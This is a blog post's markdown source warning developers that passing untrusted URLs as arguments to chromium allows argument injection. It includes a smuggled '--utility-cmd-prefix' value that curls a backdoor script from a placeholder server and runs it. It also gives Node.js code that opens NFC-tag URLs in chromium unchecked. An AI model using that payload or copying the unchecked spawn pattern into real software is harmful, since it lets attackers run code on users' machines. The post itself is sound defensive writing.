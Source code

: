 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

```javascript
const { spawn } = require("child_process");
const fs = require("fs");

spawn("nfc-mfultralight", ["r", "dump"]).on("close", () => {
	const ndefLibrary = require('ndef-lib');

	const data = fs.readFileSync("./dump").slice(18);

	const message = new ndefLibrary.NdefMessage.fromByteArray(data);

	const url = Buffer.from(message._records[0]._payload).toString("utf8").slice(2);

	const shell = spawn("chromium", [url]);

	shell.stdout.on("data", data => {
		console.log("" + data);
	});

	shell.stderr.on("data", data => {
		console.error("" + data);
	});

	shell.on("close", (code) => {
		console.log(code);
	});
});
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

![](/assets/rfid.png)

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?

